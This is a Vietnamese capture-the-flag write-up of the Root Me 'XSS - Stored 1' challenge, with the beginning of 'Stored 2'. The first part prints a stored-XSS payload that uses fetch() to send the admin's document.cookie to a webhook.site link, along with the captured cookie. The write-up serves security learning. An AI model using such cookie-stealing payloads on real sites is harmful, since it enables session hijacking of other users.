 

# Root Me/XSS - Stored 1

![](https://i.imgur.com/aqMQatu.png)

Link to chall: http://challenge01.root-me.org/web-client/ch18/

## Phân tích

Sau khi vào trang web và test thử các tính năng của web em thấy rằng website cho phép chúng ta post comment của mình lên và comment đó sẽ được lưu lại.

Thử ngay payload `<script>alert(1)</script>` em thấy nó không bị filter và một cửa sổ alert(1) được hiện ra.\

![](https://i.imgur.com/p1chHuG.png)

Vậy là website dính lỗ Stored XSS tại phần `message:`

## Khai thác

Để có thể nhận được cookie của admin em làm như sau:

1. Truy cập vào [Webhook](https://webhook.site/) để nhận một link giúp em kiểm tra và theo dõi các yêu cầu HTTP đến link đó.
2. Tạo payload để fetch api đến link đó: 
```html
<script>fetch(`[Link mà em nhận được từ webhook]?cookie=${document.cookie}`)</script>
```
3. Post comment chứa payload và sang Webhook chờ Admin truy cập website dính lỗi XSS, và khi cookie của Admin sẽ được gửi đến Webhook:

![](https://i.imgur.com/P4zX6hz.png)

Sử dụng cookie đó đê submit và em đã solve challenge: `ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`

---

# Root Me/XSS - Stored 2

![](https://i.imgur.com/xa2Nvjf.png)

Link to chall: http://challenge01.root-me.org/web-client/ch19/

## Phân tích

Sau khi truy cập website em thử các tính năng của web. Web cho chúng ta post comment, dựa theo chall trước em bắt đẩu fuzz thử các payload xss thông dụng nhưng ở phần post comment đó tất cả các payload đều bị filter.

![](https://i.imgur.com/bJDBVrs.png)
